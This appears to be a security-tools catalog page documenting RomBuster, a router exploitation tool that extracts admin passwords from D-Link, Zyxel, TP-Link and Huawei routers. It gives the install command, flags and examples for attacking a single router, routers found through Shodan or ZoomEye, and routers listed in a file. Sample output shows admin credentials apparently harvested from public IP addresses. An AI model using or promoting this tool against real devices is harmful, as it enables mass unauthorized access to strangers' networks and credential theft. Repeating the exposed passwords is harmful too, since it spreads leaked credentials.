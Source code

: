 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

* Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

## Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

#### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

#### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

#### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

* [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
